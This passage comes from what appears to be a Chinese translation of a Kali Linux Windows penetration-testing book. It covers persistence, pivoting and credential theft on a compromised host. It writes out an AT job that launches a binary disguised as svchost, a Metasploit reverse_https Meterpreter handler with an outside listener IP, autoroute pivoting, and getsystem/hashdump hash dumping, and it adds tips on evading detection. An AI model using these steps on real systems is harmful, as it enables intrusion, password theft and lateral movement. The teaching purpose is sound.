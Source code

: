 现在我们有东西要上传。就像 Ncat 示例一样，我们将使用我们对系统的内部妥协来上传我们的漏洞利用：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali18-win-pentest/img/88154cef-8391-4a74-b654-6e58255622c3.png)

与 Ncat 一样，我们将进入受害者机器并设置`AT`命令运行`svchost13.exe`：

```
shell
AT 5:25PM c:\windows\svchost.exe
exit  
```

在下午 5:25 之前，登录到恶意服务器`//rogue3`。启动 Metasploit 服务`msfconsole`，设置监听器并接受连接。然后使用以下命令设置常见处理程序模块：

```
msfconsole
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_https
set LHOST 128.199.190.69
set LPORT 443
exploit  
```

运行 exploit 后，处理程序将开始监听端口`443`，等待你无助的受害者打电话回家。等待一会儿后，我们看到一个来自`69.131.155.226`的连接。这是我们受害者机器背后防火墙的地址。然后处理程序给我们系统的命令提示符。运行 Meterpreter 命令`sysinfo`，我们可以看到名称和机器信息。从这里，你拥有完全的控制权！

一个真正的攻击者可能设置这个漏洞并且几个月后才回来。唯一的问题迹象将是每天下午 5:25 只有一个连接出去并失败。这只是网络上的一个小问题。

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali18-win-pentest/img/2b717544-7a22-40d9-ac8d-fdb754939ad5.png)

你可能会兴奋地继续下一个征服，但由于我们在网络防火墙后面的机器上，让我们看看网络的其他部分。通过运行`ipconfig`，我们看到这台机器上有两个网络接口。一个在 10 网络上，地址为`10.100.0.0/24`，另一个在 192.168 网络上，地址为`192.168.202.0`。这两个都是受保护的网络，但重要的是网络不是平面的。你不能在私有范围内的两个不同网络类之间路由数据包。10 网络可以访问互联网，所以它可能是一个 DMZ，上面的机器可能更加强化并且包含的数据价值更少。这可能意味着另一个网络上有一些宝藏。这种枢纽可以连接到任一网络，但让我们在这里攻击后端网络并寻找真正的黄金：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali18-win-pentest/img/b67fd131-5de9-47de-a5b6-42efc01d3b90.png)

红色标记的路径是我们将要从持久连接到后端网络攻击域控制器的枢纽路径。

那个时间已经过去，我们在我们的恶意服务器上启动了监听器，受害者机器已经打来电话。我们准备进一步。我们将使用 Meterpreter 命令`autoroute`来进入`192.168.202.0/24`网络。

这一次，当我们设置处理程序时，我们将在运行`exploit`命令时使用`-j`标志将会话发送到后台：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali18-win-pentest/img/dbec0765-7d32-470c-842f-e60639c1319b.png)

然后受害者机器打来电话。这告诉我们目标网络中的防火墙没有调整以阻止出站数据流，并且异常行为没有引起他们的**入侵检测系统**（**IDS**）的警报。我们建立了连接：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali18-win-pentest/img/038c6f49-36e2-4411-8df5-9456164eac08.png)

我们在受害者机器内部，所以我们可以运行 DOS 命令。如果我们运行`ipconfig`，我们可以看到两个接口及其地址：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali18-win-pentest/img/efb5ee64-fc9b-4a58-93e4-1c2ec6604db6.png)

我们知道，系统管理员经常在他们的网络上重复使用密码，所以让我们从这台机器获取哈希并尝试在 DC 上使用它。将这些哈希保存到文本文件或您的**KeepNote**中。稍后会用到它们。

```
getsystem
hashdump  
```
